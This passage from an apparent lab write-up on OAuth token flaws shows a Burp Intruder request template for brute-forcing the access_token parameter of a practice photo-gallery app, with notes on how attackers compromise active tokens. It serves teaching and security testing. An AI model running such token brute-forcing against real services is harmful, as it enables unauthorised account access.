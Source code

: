 > [Note] Make sure to replace the access code in the above request with the one you get back from the request before this one.  


Task 3. Discover another token vulnerability
```
# At /photos/me?access_token=[code] you are able to bruteforce the valid token. This will require the following Burp Intruder configuration:  

GET /photos/me?access_token=§§ HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```


> This way, an attacker is able to compromise active tokens via  bruteforce in an unlimited way. 

> [Note] In a real application there  might be multiple active tokens. As we have just one active token, the  time for bruteforcing it might be much longer.




